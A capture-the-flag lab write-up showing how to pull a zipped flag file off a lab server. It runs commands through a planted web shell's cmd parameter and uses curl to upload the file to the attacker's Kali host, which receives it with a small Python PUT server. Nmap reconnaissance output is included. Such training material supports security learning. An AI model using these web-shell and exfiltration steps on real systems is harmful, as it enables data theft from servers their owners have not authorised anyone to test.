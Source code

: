 # Data Exfiltration

## 🔬

The Kali OS GUI instance is web hosted on the INE website, where:

* You have exploited a vulnerable API endpoint and overwritten it with malicious code. This modification allows you to run commands on the server machine hosting the API, as a _low privilege user_ (i.e. student). A sensitive flag file is kept in a zipped archive file in the _student user's home directory_.
* There is a monitor process running on the server machine that blocks most protocols _except HTTP protocol_ (when using port **80**).
* The API endpoint is accessible at `demo.ine.local` domain.

_Objective_: Transfer the zipped archive to your Kali machine using HTTP protocol and retrieve the flag!

_**Tools**_ used:

* **`nmap`**, **`curl`**
* A web browser
* Python Scripting

## SOLUTION

*   Check Kali instance IP address and ping the vulnerable server.

    * **`ip -br -c a`**
    * **`ping demo.ine.local`**

    ```shell
    root@INE:~# ip -br -c a
    eth1@if126466    UP             192.70.33.2/24 
    lo               UNKNOWN        127.0.0.1/8 
    ip_vti0@NONE     DOWN           
    eth0@if126463    UP             10.1.0.17/16

    root@INE:~# ping demo.ine.local
    PING demo.ine.local (192.70.33.3) 56(84) bytes of data.
    64 bytes from demo.ine.local (192.70.33.3): icmp_seq=1 ttl=64 time=0.159 ms
    ```
* The web server IP is `192.70.33.3`

### nmap

*   Perform an `nmap` scan to check open ports on the server:

    *   _Simple scan_:

        **`sudo nmap demo.ine.local`**

    ```shell
    root@INE:~# sudo nmap demo.ine.local
    Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-05 15:34 IST
    Nmap scan report for demo.ine.local (192.70.33.3)
    Host is up (0.0000080s latency).
    Not shown: 999 closed tcp ports (reset)
    PORT     STATE SERVICE
    8000/tcp open  http-alt
    MAC Address: 02:42:C0:46:21:03 (Unknown)

    Nmap done: 1 IP address (1 host up) scanned in 0.29 seconds
    ```

    *   _Advanced scan_:

        **`sudo nmap -sC -sV -oA nmap/dataexfiltration 192.70.33.3`**

        * **`-sC`** - for default scripts
        * **`-sV`** - probe open ports to determine service/versions info
        * **`-oA`** - output all 3 major formats in a directory

    ```shell
    root@INE:~# less nmap/dataexfiltration.nmap

    # Nmap 7.92 scan initiated Thu May  5 14:31:09 2022 as: nmap -sC -sV -oA nmap/dataexfiltration 192.70.33.3
    Nmap scan report for demo.ine.local (192.70.33.3)
    Host is up (0.0000080s latency).
    Not shown: 999 closed tcp ports (reset)
    PORT     STATE SERVICE VERSION
    8000/tcp open  http    Werkzeug httpd 0.15.2 (Python 2.7.16)
    |_http-title: Site doesn't have a title (text/html; charset=utf-8).
    MAC Address: 02:42:C0:46:21:03 (Unknown)

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Thu May  5 14:31:15 2022 -- 1 IP address (1 host up) scanned in 6.91 seconds
    ```

    * A Python2 web server (Werkzeug) is running on open port **8000**.
* Check the response from a browser by visiting `http://demo.ine.local:8000/`

![](.gitbook/assets/image-20220505111539250.png)

### Web shell commands

* Pass a parameter named `cmd` with the URL, using `?cmd=VALUE` in the URL:
  * **`http://demo.ine.local:8000/?cmd=pwd`**

![](.gitbook/assets/image-20220505120650948.png)

* **`http://demo.ine.local:8000/?cmd=ls+-l`** - check contents of pwd:

![](.gitbook/assets/image-20220505120905753.png)

* _flag.zip_ file must be transferred to the Kali instance.
* Check if `curl` command is present on the server
  * **`http://demo.ine.local:8000/?cmd=curl+-h`** - curl is present:

![](<.gitbook/assets/image-20220505121232523 (1).png>)

* `curl` can be used to exfiltrate the flag.zip file by sending it over HTTP protocol to a local HTTP server on the Kali instance, using the **`-T`** option:

> \-T, --upload-file This transfers the specified local file to the remote URL. If there is no file part in the specified URL, curl will append the local file name. NOTE that you must use a trailing / on the last directory to really prove to Curl that there is no file name or curl will think that your last directory name is the remote file name to use. That will most likely cause the upload oper‐ ation to fail. If this is used on an HTTP(S) server, the PUT command will be used.

### Python HTTP server

* Run a HTTP server on the local machine using python:
  * **`python -m SimpleHTTPServer 80`**
  * The Kali instance IP is `192.70.33.2`
  * `http://demo.ine.local:8000/?cmd=curl+192.70.33.2+-T+flag.zip`
  * _Error response - Unsupported method ('PUT')_

![](.gitbook/assets/image-20220505125425734.png)

* (Same error with **`python3 -m http.server 80`**)
*   Create a Python script to run an _HTTP server supporting PUT_.

    ```shell
    root@INE:~# which python
    /usr/bin/python

    root@INE:~# nano httpserver.py
    ```

    * Add the following code to the htttserver.py script:

    ```python
    #!/usr/bin/python
    import SimpleHTTPServer
    import BaseHTTPServer

    class SputHTTPRequestHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
        def do_PUT(self):
            print self.headers
            length = int(self.headers["Content-Length"])
            path = self.translate_path(self.path)
            with open(path, "wb") as dst:
                dst.write(self.rfile.read(length))


    if __name__ == '__main__':
        SimpleHTTPServer.test(HandlerClass=SputHTTPRequestHandler)
    ```

    > _Thanks to_ [_BigBlueHat_](https://gist.github.com/BigBlueHat/0ca3894f715aac2f2e40af3a8aa0a436) _for the script._

    * Run the SimpleHTTP server using the script:
      * **`python httpserver.py 80`**
    * Try again the PUT request `http://demo.ine.local:8000/?cmd=curl+192.70.33.2+-T+flag.zip`
      * Archive flag.zip was received by the server.

![](.gitbook/assets/image-20220505130449931.png)

* Stop the running HTTP server and check the folder for the downloaded file.
  * **`ls -l`**

![](.gitbook/assets/image-20220505131132654.png)

* Unzip the archive and retrieve the flag:
  * **`unzip flag.zip`**
  * **`cat flag/flag.txt`**

![](.gitbook/assets/image-20220505131635395.png)

> 📍 Lab solved!
>
> 📌 Check [An Introduction to Web Shells - by Acunetix](https://www.acunetix.com/blog/articles/introduction-web-shells-part-1/)
